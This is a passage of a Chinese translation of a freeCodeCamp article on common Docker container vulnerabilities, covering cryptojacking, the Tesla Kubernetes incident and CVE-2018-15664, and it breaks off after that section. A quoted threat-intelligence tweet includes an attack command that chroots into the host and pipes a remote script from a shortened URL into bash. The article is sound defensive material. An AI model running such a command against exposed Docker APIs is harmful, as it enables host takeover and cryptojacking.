 # 2020 年如何发现并修复 Docker 容器漏洞

> 原文：<https://www.freecodecamp.org/news/how-to-find-and-fix-docker-container-vulnerabilities-in-2020/>

容器化允许工程团队创建运行和测试应用程序的沙盒环境。容器主要由从 docker hub 或其他公共图像存储库中获取的开源图像组成。

但这些开源图像有时可能包含漏洞，这些漏洞会危及容器的安全，进而危及其主机/服务器的安全。

由于这些容器运行在主机上，如果它们没有受到保护，就有可能在生产中劫持容器。

这种黑客攻击的一个很好的例子是[特斯拉对无保护的 Kubernetes 集群的密码劫持攻击](https://cointelegraph.com/news/tesla-cryptojacked-hackers-use-passwordless-system-to-mine-crypto)。在这次攻击中，攻击者能够下载并运行一个恶意脚本，使用特斯拉的 K8s (Kubernetes)集群提供的 GPU 来挖掘加密。他们能够通过将 CPU 使用率保持在最低水平，并在特定的时间间隔运行脚本来防止这种攻击。

在本文的过程中，我们将看看常见的容器漏洞以及修复它们的可能方法。

## 常见的容器漏洞及其修复方法

ops 工程师使用容器在封闭和受控的环境中打包和部署软件/应用程序。

为了避免重复发明轮子并加快上市时间，已经存在的开源图像被引入以满足运行软件所需的依赖性。这些映像通常包含某些漏洞，使得整个容器及其主机容易受到恶意攻击。

下面列出了一些常见的容器漏洞和暴露，以及如何减轻它们。

### 密码劫持

加密劫持是一种攻击，其中恶意脚本用于窃取设备的计算资源来挖掘加密货币。

最近在 Docker 上发现了一个漏洞，字典词条 [CVE-2018-15664](https://nvd.nist.gov/vuln/detail/CVE-2018-15664) 。此漏洞使得攻击者能够获得主机的超级用户访问权限。

除了能够使用主机的 CPU 和 GPU 资源来挖掘加密，攻击者还可以窃取敏感凭据，进行 DoS 攻击，发起网络钓鱼活动，等等。

如果容器包含恶意图像，攻击者就可以以 root 用户身份访问整个容器，因此容器很容易受到密码劫持。如果 docker 容器 API 端点可以在没有密码或安全防火墙的情况下在互联网上公开访问，它们也很容易受到攻击，就像 Tesla 的情况一样。

> 检测到针对暴露的 Docker API 端点的机会性大规模扫描活动。
> 
> 这些扫描使用 Alpine Linux 映像创建一个容器，并通过
> “命令”:“ch root/mnt/bin/sh-c ' curl-sL4[https://t.co/q047bRPUyj](https://t.co/q047bRPUyj)| bash；””，[#威胁](https://twitter.com/hashtag/threatintel?src=hash&ref_src=twsrc%5Etfw)[pic.twitter.com/vxszV5SF1o](https://t.co/vxszV5SF1o)
> 
> — Bad Packets Report (@bad_packets) [November 25, 2019](https://twitter.com/bad_packets/status/1199087675833085959?ref_src=twsrc%5Etfw)